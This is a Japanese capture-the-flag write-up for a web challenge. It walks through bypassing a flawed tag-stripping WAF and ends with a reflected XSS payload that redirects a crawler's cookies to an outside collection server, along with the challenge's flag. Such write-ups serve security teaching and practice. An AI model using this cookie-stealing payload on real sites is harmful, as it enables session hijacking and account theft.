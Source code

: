 # Your name (500pt 0solves)

君の、名前はーー

(url)

## 配布ファイル

[distfiles](../distfiles)

## ヒント

WAFにバグがあるらしいです。

## writeup

アクセスすると以下のようなかんじ。

![yourname](./img/yourname.png)

訴えないでほしい。

上の欄に名前を入れると、AAで表示される。(3文字だと丁度よく手になる)

![sukida](./img/sukida.png)

`<s>sss</s>`を入れてみると、タグが微妙に消されてる。

![sss](./img/sss.png)

下の欄に名前を入力すると、クローラがアクセスする。

```php
file_get_contents($_ENV["NODE"] . '?name=' . myUrlEncode($_POST["name"]));
```

```javascript
router.get('/', async function (req, res, next) {
  :
        const cookies = JSON.parse(fs.readFileSync('cookies.json', 'utf-8'));
        for (let cookie of cookies) {
            await page.setCookie(cookie);
        }
        const url = host + "?name=" + name

        page.goto(url).then(() => {
            res.header('Access-Control-Allow-Origin', '*');
            res.send('これじゃ、名前わかんないよ・・・');
        }).catch((err) => {
            res.header('Access-Control-Allow-Origin', '*');
            res.send('something went wrong');
        });
  :
```

```json
[
    {
        "name":"flag",
        "value": "flag{***CENSORED***}",
        "domain": "php",
        "path": "/"
    }
]
```

クローラのCookieにflagがある。

提出すると、以下のようなかんじ。

![report](./img/report.png)

セリフを無理やり引用したので、なんかエラーっぽい文章になってしまいました。ややこしくてごめんなさい  
(ソース読めばエラーじゃないことがわかるので許してください。)

index.phpを読むと、WAFがある。

```php
<?php
// いたずらする人が多いので、WAFを導入しました。
if (isset($_GET["name"])) {
    $name = $_GET["name"];
    $isTag = 0;
    for ($i = 0; $i < strlen($name); $i++) {
        if ($name[$i] == "<") {
            $isTag++;
        }
        if ($name[$i] == ">") {
            $isTag--;
        }
        if ($isTag > 0) {
            continue;
        }
        $msg .= $name[$i];
    }
}
```

`isTag`が`<`でインクリメントされ、`>`でデクリメントされる。`isTag`が1以上の時、文字を読み飛ばす。

WAFを回避してXSSすればCookieを盗めそうだ。

`><s>sss</s>`で提出すると、HTMLが反映される。

![sss2](./img/sss2.png)

この要領でCookieを盗む。

`><script>document.location="[url]?"+document.cookie</script>`を提出すると、サーバにアクセスがくる。(自分はサーバに<https://webhook.site/>を使用しています)

![flag](./img/flag.png)

フォーマットをよしなにしたらflag。`flag{xss_c4n_st34l_c00k13s}`
